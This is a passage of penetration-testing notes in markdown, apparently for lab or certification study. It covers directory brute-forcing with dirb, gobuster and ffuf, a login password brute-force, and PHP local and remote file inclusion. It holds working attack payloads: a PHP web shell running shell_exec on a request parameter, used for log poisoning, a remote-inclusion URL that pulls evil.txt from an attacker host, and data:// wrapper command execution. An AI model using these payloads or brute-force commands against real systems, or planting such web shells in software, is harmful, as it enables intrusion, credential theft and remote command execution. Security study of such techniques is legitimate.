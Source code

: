 ```
`user@machine$ curl http://MACHINE_IP -v`

## Fuzzing

* https://github.com/ffuf/ffuf
* gobuster
* dibr

## My approach to Dirbusting

1. Quick scan with default dirb without recusive folder search
`dirb http://IP/ -r`

2. scan for common directories non recursively with gobuster first:
`gobuster dir -u http://ip -w /usr/share/seclists/Discovery/Web-Content/common.txt`

3. then scan recursively within found directories

`dirb http://ip /usr/share/seclists/Discovery/Web-Content/big.txt -X .html,.php,.cgi`

4. finally you can also fuzz the discovered content or anything else within head or requests

`ffuf -w /usr/share/seclists/Discovery/Web-Content/common.txt -u http://ip/FUZZ` (FUZZ keyword is there where you want to fuzz)

Fuzzing for POST requests

`ffuf -w passwords.txt -u http://192.168.123.52/login.php -H "Content-Type: application/x-www-form-urlencoded" -H "DNT: 1" -H "Upgrade-Insecure-Requests: 1" -d "username=admin&password=FUZZ&debug=0" -H "User-Agent: Fool"  -fr "Failed"`

# Other Web Attacks

## LFI

If it is possible to access servers files using web requests then get RCE with remote logs contamination

1. Contaminate Logs
` <?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>';?> `

2. access these logs externally (xampp on windows in this case)

`http://10.11.0.xx/menu.php?file=c:\xampp\apache\logs\access.log&cmd=whoami`

## RFI

* create malicious file evil.txt with payload for php or for any other platform

`<?php echo shell_exec($_GET['cmd']); ?>`

This is how evil.txt can be accessed from the victim host hosted on attacker side

`http://VICTIM.IP/menu.php?file=http://ATTACKER.IP/evil.txt?`

* Include %00 or ? to trick php into terminating the string or considering it as part of URL
* To enhance attacks wrappers can be used. Here are php wrappers

```
#data wrapper
http://10.11.xx.xx/menu.php?file=data:text/plain,<?php echo shell_exec("dir") ?>
```
Payload after text/plain can either plain text or base64 encoded.
```